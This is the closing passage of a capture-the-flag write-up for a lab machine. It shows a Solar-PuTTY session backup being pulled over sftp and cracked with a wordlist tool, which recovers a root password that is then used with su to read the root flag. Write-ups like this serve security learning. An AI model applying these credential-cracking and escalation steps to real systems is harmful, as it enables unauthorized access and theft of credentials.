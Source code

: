 - So to we execute the script, we need before to transfer the file `sessions-backup.dat` to our local machine:

```bash
$: sftp -i id_rsa_shirohige shirohige@10.10.11.37:/opt/backups/Solar-PuTTY/sessions-backup.dat sessions-backup
```

- And now from our terminal shell execute:

```bash
$: source SolarPuttyCracker/env/bin/activate
$: pip install -r SolarPuttyCracker/requirements.txt
$: python3 SolarPuttyCracker/SolarPuttyCracker.py sessions-backup.dat -w /usr/share/wordlists/rockyou.txt
   ____       __             ___         __   __          _____                 __
  / __/___   / /___ _ ____  / _ \ __ __ / /_ / /_ __ __  / ___/____ ___ _ ____ / /__ ___  ____
 _\ \ / _ \ / // _ `// __/ / ___// // // __// __// // / / /__ / __// _ `// __//  '_// -_)/ __/
/___/ \___//_/ \_,_//_/   /_/    \_,_/ \__/ \__/ \_, /  \___//_/   \_,_/ \__//_/\_\ \__//_/
                                                /___/
Trying to decrypt using passwords from wordlist...
Decryption successful using password: estrella
[+] DONE Decrypted file is saved in: SolarPutty_sessions_decrypted.txt
```

- In our `SolarPutty_sessions_decrypted.txt` file we found the root password!

```json
"Credentials": [
    {
        "Id": "452ed919-530e-419b-b721-da76cbe8ed04",
        "CredentialsName": "instant-root",
        "Username": "root",
        "Password": "12**24nzC!r0c%q12",
        "PrivateKeyPath": "",
        "Passphrase": "",
        "PrivateKeyContent": null
    }
],
```

- So now we execute from our SSH shell:

```bash
shirohige@instant:~$ su root
Password:
root@instant:/home/shirohige# whoami
root
root@instant:/home/shirohige# cat /root/root.txt
8dd3420462caa4f8bcd59157834478ac
```

### 🕵️ Pwned!!! 🕵️

**We got the root flag at /root/root.txt and finally complete the machine with full access to the system!! 🏆**

![](https://media4.giphy.com/media/v1.Y2lkPTc5MGI3NjExc3p2eTBhZzlnMWt3emFva3ljbXB6OHRmcDUxeWdpeXFpdjllbDNuMCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/Th3THfJUcShxhl7dNt/giphy.gif)

Happy Hacking!!

----

## Author: Mateo Fumis 
